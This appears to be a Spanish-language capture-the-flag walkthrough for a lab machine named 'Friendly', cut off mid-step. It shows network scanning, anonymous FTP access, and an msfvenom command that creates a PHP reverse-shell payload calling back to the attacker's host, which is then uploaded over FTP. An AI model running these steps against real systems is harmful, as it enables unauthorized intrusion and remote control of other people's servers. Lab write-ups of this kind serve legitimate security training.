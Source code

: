   

- Empezamos con la intrusión de la maquina Friendly.
    
    ```Bash
    sudo arp-scan -I eth0 --localnet
    ```
    
    ![[Imagenes/image 7 41.png|image 7 41.png]]
    

```Bash
nmap -p- -sS -sV -sC --open -min-rate=5000 -n -vvv -Pn 10.0.3.21
```

![[Imagenes/image 8 39.png|image 8 39.png]]

- Miramos el puerto 80 en el navegador web
    
    ![[Imagenes/image 9 36.png|image 9 36.png]]
    
    Vemos que esta corriendo una plantilla FTP
    
      
    
- Vemos también que tiene el puerto 21 abierto con el FTP con el **anonymous** habilitado. Lo probamos.
    
    ![[Imagenes/image 10 32.png|image 10 32.png]]
    
      
    
    ```Bash
    ftp 10.0.3.21 
    ```
    
    `ls`
    
    ![[Imagenes/image 11 26.png|image 11 26.png]]
    
    Listamos fichero y vemos un **index.html** que suele ser la pagina de inicio de una web. Salimos con `exit`.
    

  

- Vamos a crear un Payload con msfvenom.
    
    ```Bash
    msfvenom -p php/reverse_php LHOST=10.0.3.4 LPORT=443 -f raw > pwned.php  
    ```
    
    ![[Imagenes/image 12 26.png|image 12 26.png]]
    

  

- Volvemos a entrar en el FTP y hacemos un `put` del archivo que acabamos de crear.
    
    ```Bash
    ftp 10.0.3.21
    ```
    